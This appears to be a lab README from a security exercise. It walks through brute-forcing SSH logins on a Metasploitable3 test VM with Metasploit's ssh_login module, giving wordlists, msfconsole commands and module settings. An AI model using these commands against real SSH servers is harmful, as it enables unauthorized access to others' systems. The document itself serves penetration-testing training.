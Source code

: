 # Phase 1: Setup and Compromise the SSH Service

Task 1.1: Use Kali Linux tool Metasploit to compromise the SSH service Using Metasploit

## Objective
Use the `auxiliary/scanner/ssh/ssh_login` module in Metasploit to brute-force SSH credentials on the Metasploitable3 target machine.

---

## 🖥️ Step 1: Setup the Target Environment

- **Attacker Machine:** Kali Linux (on UTM)
- **Victim Machine:** Metasploitable3 Ubuntu 14.04 (on UTM)
- **Target IP Address:** `192.168.100.10`
- **Target SSH Port:** `22` (default)

---

## Step 2: Create Wordlist Files

![user.txt & pass.txt files creation](screanshots/filesUserAndPass.png)

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

## Step 3: Load the SSH Login Module

### Launch Metasploit:
```text
sudo msfconsole
```
### Load the SSH login module:
```text
use auxiliary/scanner/ssh/ssh_login
```

## Step 4: Configure the Module

### Set the Target Host, Username & Password Files, and Improve Brute-Force Performance:
```text
set RHOSTS 192.168.100.10
set USER_FILE /home/kali/ssh-brute/users.txt
set PASS_FILE /home/kali/ssh-brute/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```
![set](screanshots/Settters.png)

## Step 5: Run the Attack
```text
run
```

## Results:
![SSH Brute-force Result](screanshots/ssh-results.jpg)










